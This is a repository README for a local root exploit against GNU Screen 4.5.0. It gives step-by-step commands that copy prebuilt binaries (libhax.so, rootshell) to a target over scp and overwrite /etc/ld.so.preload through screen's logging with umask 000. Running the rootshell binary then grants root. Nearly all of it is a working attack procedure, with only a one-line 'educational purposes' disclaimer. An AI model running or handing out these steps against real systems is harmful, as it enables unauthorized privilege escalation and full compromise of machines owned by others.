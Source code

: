 # GNU Screen-4.5.0 Local-Privilege-Escalation


---

# Screenroot Exploit

This repository contains the binary files `libhax.so` and `rootshell`, which are part of a local root exploit for screen version 4.5.0. This exploit abuses `ld.so.preload` overwriting to escalate privileges.

## Disclaimer
This code is for educational purposes only. Do not use this exploit on systems you do not own or have explicit permission to test.

## Requirements
- A machine with `screen` version 4.5.0 or a vulnerable version installed.
- Access to the target machine where you can transfer and execute the binaries.

## Exploit Execution

### 1. Clone this repository
First, clone the repository to your local machine:

```bash
git clone https://github.com/yourusername/screenroot-exploit.git
cd screenroot-exploit
```

### 2. Transfer the binaries
Copy the `libhax.so` and `rootshell` binaries to the target machine. You can use `scp` or another method of file transfer:

```bash
scp libhax.so rootshell user@target:/tmp/
```

### 3. Set the appropriate permissions
On the target machine, change the permissions of the `rootshell` binary:

```bash
chmod +x /tmp/rootshell
```

### 4. Exploit the vulnerability
To exploit the vulnerability, run the following commands on the target machine:

```bash
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"
```

This overwrites `ld.so.preload`, which allows the exploit to escalate privileges.

### 5. Trigger the exploit
Now, trigger the `rootshell` to obtain a root shell:

```bash
/tmp/rootshell
```

You should now have root access.

---

